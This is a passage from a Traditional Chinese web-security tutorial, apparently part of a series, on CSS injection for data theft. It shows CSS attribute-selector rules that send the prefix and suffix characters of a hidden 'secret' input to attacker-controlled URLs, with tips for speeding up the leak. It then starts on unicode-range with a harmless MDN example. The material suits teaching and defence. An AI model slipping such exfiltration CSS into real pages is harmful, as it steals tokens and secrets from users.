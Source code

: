 ``` css
input[name="secret"][value^="a"] {
  background: url(https://b.myserver.com/leak?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://b.myserver.com/leak?q=b)
}

// ...
input[name="secret"][value$="a"] {
  border-background: url(https://b.myserver2.com/suffix?q=a)
}

input[name="secret"][value$="b"] {
  border-background: url(https://b.myserver2.com/suffix?q=b)
}
```

除了偷開頭以外，我們也偷結尾，效率立刻變成兩倍。要特別注意的是開頭跟結尾的 CSS，一個用的是 `background`，另一個用的是 `border-background`，是不同的屬性，因為如果用同一個屬性的話，內容就會被其他的蓋掉，最後只會發出一個 request。

若是內容可能出現的字元不多，例如說 16 個的話，那我們可以直接一次偷兩個開頭加上兩個結尾，總共的 CSS rule 數量為 `16*16*2` = 512 個，應該還在可以接受的範圍內，就能夠再加速兩倍。

除此之外，也可以朝 server 那邊去改善，例如說改用 HTTP/2 或甚至是 HTTP/3，都有機會能夠加速 request 載入的速度，進而提升效率。

## 偷其他東西

除了偷屬性之外，有沒有辦法偷到其他東西？例如說，頁面上的其他文字？或甚至是 script 裡面的程式碼？

根據我們在上一篇裡面講的原理，是做不到的。因為能偷到屬性是因為「屬性選擇器」這個東西，才讓我們選到特定的元素，而在 CSS 裡面，並沒有可以選擇「內文」的選擇器。

因此，我們需要對 CSS 以及網頁上的樣式有更深入的理解，才有辦法達成這件看似不可能的任務。

### unicode-range

在 CSS 裡面，有一個屬性叫做「unicode-range」，可以針對不同的字元，載入不同的字體。像是底下這個從 [MDN](https://developer.mozilla.org/en-US/docs/Web/CSS/@font-face/unicode-range) 拿來的範例：

``` html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "Ampersand";
        src: local("Times New Roman");
        unicode-range: U+26;
      }

      div {
        font-size: 4em;
        font-family: Ampersand, Helvetica, sans-serif;
      }
    </style>
    <div>Me & You = Us</div>
  </body>
</html>

```
